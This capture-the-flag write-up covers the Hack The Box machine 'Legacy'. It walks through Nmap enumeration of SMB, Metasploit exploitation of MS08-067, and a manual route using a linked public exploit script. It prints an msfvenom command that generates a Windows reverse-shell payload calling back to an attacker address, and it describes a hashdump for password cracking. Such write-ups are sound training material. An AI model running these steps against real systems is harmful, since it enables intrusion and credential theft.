 # Legacy

## Overview

Legacy is a pretty straightforward machine which exploits SMB on Windows. This machine showcases CVE-2008-4250 / ms08\_067.

1. [https://nvd.nist.gov/vuln/detail/cve-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
2. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
3. [https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)

## Enumeration

### Nmap

```bash
sudo nmap -Pn -sV -sC 10.129.1.111 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:41 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ec:a3 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-03-28T19:39:25+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.34 seconds
```

From the Nmap scan, we see that SMB is open and the OS is Windows XP



A handy command that we can run for SMB vulnerability identification is the following:

```bash
sudo nmap --script smb-vuln* -p 445 10.129.1.111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:49 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
```

The above command shows this machine is vulnerable to 2 SMB vulnerabilities.

## Exploitation with Metasploit

Using the Metasploit module `exploit/windows/smb/ms08_067_netapi`, we'll set up our payload as such:

![](<../../../../.gitbook/assets/image (49).png>)

![](<../../../../.gitbook/assets/image (69).png>)

{% hint style="info" %}
To set options (e.g. RHOSTS), enter "set RHOST \[target IP]"
{% endhint %}

With this information entered, we can now run the exploit with `run` or `exploit`

![](<../../../../.gitbook/assets/image (43).png>)

As shown in the image above, running getuid returns us NT AUTHORITY\SYSTEM which means no privilege escalation is needed as we have the highest privileges on the current system.

## Exploitation without Metasploit

The exploit I used can be found here:

{% embed url="https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py" %}

The script explains how to achieve your goal with showing where to make modifications and what commands to run

First I run the msfvenom command mentioned in the code.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

![](<../../../../.gitbook/assets/image (57).png>)

Then replace the shellcode in the code with the shellcode we just generated.

Running an nmap scan on the target once more with -O (OS Detection) reveals that the target is running Microsoft Windows XP SP3 (94%). With this is mind, we'll trying using this sample command

![](<../../../../.gitbook/assets/image (67).png>)

Let's set up a netcat listener and then run the command and you should get a reverse shell.

I've followed these articles, but had no success.

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010" %}

{% embed url="https://blog.nullprism.io/posts/htb-legacy" %}

## Post Exploitation

One thing we can do with the meterpreter shell is run a hashdump on the target

![](<../../../../.gitbook/assets/image (48).png>)

We can then take these hashes and crack them with JohnTheRipper or Hashcat
